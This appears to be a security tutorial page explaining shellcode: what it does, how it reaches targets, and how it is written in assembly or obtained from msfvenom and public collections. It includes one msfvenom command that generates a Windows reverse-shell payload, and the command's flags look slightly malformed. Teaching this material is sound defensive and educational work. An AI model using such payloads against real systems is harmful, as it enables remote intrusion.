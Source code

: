 
**Shellcode is capable of the following:**

* Execute a shell on the target system (often times in the form of a reverse or bind shell)
* Open a backdoor
* Act as a "dropper", calling out to a malicious C2 for commands or call out to a web server to serve malware to the target system
* Aid in Privilege Escalation
* And so much more...

### How Shellcode is Delivered to a Target

There is a wide range of attack vectors.

1. Memory corruption bugs
2. Network-based delivery
3. Local Privilege Escalation
4. Local file-based delivery
5. "Loaders"
6. Physical/external delivery mechanisms

### Where Does Shellcode Come From?

**There are two primary techniques of obtaining/crafting shellcode:**

1. _<mark style="color:yellow;">**Hackers can create their own Assembly programs**</mark>_<mark style="color:yellow;">.</mark> Then, "carve" (using `objdump`) out the core malicious instructions and obtain a byte string for usage in another delivery technique (e.g. loader).
   1. Essentially convert machine instructions (opcode -> byte string).
   2. Least convenient, however is the most stealthy, but is time consuming (time for development).
2. _<mark style="color:yellow;">**Generated via**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**`msfvenom`**</mark>_<mark style="color:yellow;">,</mark> <mark style="color:yellow;"></mark>_<mark style="color:yellow;">**or obtained from**</mark>_ [Exploit-DB](https://www.exploit-db.com/), [ShellStorm](https://shell-storm.org/shellcode/index.html), GitHub, or other third-party source.
   1. Most convenient option, least trustworthy (because it comes from external sources listed above), and there is likely already security signatures created for that piece of shellcode.

We can generate shellcode via `msfvenom` by using the following command:

```
msfvenom -payload windows/shell_reverse_tcp LHOST=localhost LPORT=1337 -f -c
```

This will generate a reverse shell using the `x86` architecture for Windows on `localhost` using port `1337` in C programming language format.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
